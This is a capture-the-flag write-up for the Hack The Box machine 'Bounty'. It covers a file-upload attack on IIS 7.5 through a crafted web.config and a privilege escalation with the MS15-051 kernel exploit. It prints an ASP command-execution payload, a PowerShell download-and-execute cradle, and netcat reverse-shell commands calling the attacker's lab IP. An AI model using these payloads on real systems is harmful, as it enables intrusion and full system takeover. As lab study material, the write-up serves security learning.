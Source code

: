 # Bounty
## Information Gathering
10.10.10.93

### On the Fly
- tcp_80_http_feroxbuster_dirbuster.txt has two interesting endpoints
	- /transfer.aspx - upload files
	- /uploadedfiles/ - ping files
	- Only certain file extensions are acceptable
		- doc, docx, xls, xlsx, config
- Microsoft IIS httpd 7.5 implies OS is Winows Server 2008 R2 or Windows 7


#### Ports/Services
- 80/tcp http Microsoft IIS httpd 7.5

## Enumeration
#### Nmap scan
```bash
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Bounty
|_http-server-header: Microsoft-IIS/7.5
```
## Exploitation
This is a basic file-upload vulnerability. First, determine which extensions are acceptable. I used Burp Intruder to fuzz which extensions are allowed. Allowed extensions from my results were: .doc, .docx, .xls, .xlsx, .config

The .config is really the only extension that permits code execution. [This](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/) is a good read to learn about the exploit and [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config/web.config) webshell was recommended as the payload. I never got the webshell working but I had a hunch that code execution was still possible.

I used [this](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.asp) webshell as my template.
I removeded all the aspects that made this script a webshell and hardcoded the commands I wanted to execute. This was my final version:
```as
<%@ Language=VBScript %>
<%

  Dim oScript
  Dim oFileSys
  Dim szCMD, szTempFile

  On Error Resume Next

  Set oScript = Server.CreateObject("WSCRIPT.SHELL")
  Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")

  szCMD = Request.Form(".CMD")

 Call oScript.Run ("cmd.exe /c ping 10.10.14.14")

%>
```
Always test your payload first by simply pinging your machine. 

I then replaced `cmd.exe /c ping 10.10.14.14` with `cmd.exe /c powershell iex(new-object web.netclient).downloadstring('http://10.10.14.14/shell.ps1')`

The AV looks like this:
1. Start a web server hosting your reverse shell script. I use Invoke-PowerShellTcp.ps1 just don't forget to add `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 53` at the end of your script
2. Spin up a listener `nc -lnvp 53`
3. Upload the web.config file with your ASP code and fetch http://10.10.10.93/uploadedfiles/web.config

You should catch a reverse shell as bounty\\merlin

To get the user flag you have to use:
```powershell
gci -force
```
To show hidden files

## Privilege Escalation
Check out the systeminfo
```powershell
Host Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3606965-84760
Original Install Date:     5/30/2018, 12:22:24 AM
System Boot Time:          5/20/2022, 10:43:58 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,472 MB
Virtual Memory: Max Size:  4,095 MB
Virtual Memory: Available: 3,483 MB
Virtual Memory: In Use:    612 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.93
```

First looking at OS Version shows N/A implying that there are no service packs installed on this client. Another point of interest is that hotfixes are N/A as well. This means that this client is likely vulnerable to a kernel exploit. 

Taking a look at C:\Windows\SoftwareDistribution\Downlod, this is where updates are downloaded and staged for installation. This directory is empty implying that this machine has never been updated and/or that this machine hasn't been updated in a while.

I use [MS15-051](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051) kernel exploit to gain System. Transfer ms15-051x64.exe file and nc.exe over to the target machine. You can do this either through powershell or by using impacket-smbserver.

Start up a reverse shell `nc -lnvp 1337` and run the executable:
```powershell
.\ms15-051x64.exe "nc.exe -nv 10.10.14.14 1337 -e cmd.exe"
```

You should catch a reverse shell as NT Authority\\System